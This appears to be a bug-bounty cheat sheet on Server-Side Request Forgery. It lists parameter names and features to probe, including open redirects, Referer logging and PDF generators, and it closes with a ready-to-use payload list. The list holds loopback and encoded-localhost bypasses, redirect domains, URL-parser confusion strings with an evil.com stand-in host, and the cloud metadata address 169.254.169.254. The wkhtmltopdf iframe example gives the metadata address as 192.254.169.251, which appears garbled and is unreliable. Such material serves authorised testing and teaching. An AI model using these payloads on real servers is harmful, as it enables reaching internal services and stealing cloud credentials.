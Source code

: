 # SSRF (Server-Side Request Forgery)

## What is ssrf?
SSRF is when an attacker manipulates the server into making requests, which can be internal services such as local host or AWS, as well as arbitrary external systems.

## Hunting ssrf
### URL parameters
`url=`, `targetUrl=`, `requestUrl=`, `path=`

### API, webhooks
Look for developer portal, e.g. developer.example.com, example.com/developer

### Open redirects
Find open redirects and chain SSRF.
```xml
go
return
r_url
returnUrl
returnUri
locationUrl
goTo
return_url
return_uri
ref=
referrer=
backUrl
returnTo
successUrl
```
### Referer header
Simply set Referer: https://www.yourdomain.com and start logging requests via your own private collaborator server.

### PDF generators
- Can I inject HTML?
- Can I access remote servers?
- Can I execute JavaScript?
- Is the server that’s rendering my PDF cloud hosted?
- Are there any known vulnerabilities in the component that’s generating the PDF?
- What other services or systems can I interact with?

Read: [Hunting for SSRF Bugs in PDF Generators](https://www.blackhillsinfosec.com/hunting-for-ssrf-bugs-in-pdf-generators/)
#### wkhtmlpdf
WebKit rendering engine to convert HTML and CSS into PDF documents.
```xml
<iframe src="http://192.254.169.251/user-data">
```

## Payload
```xml
http://127.0.0.1:80
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
http://127.127.127.127
http://2130706433/ = http://127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]
localhost:+11211aaa
http://0/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
http://169.254.169.254
0://evil.com:80;http://google.com:80
```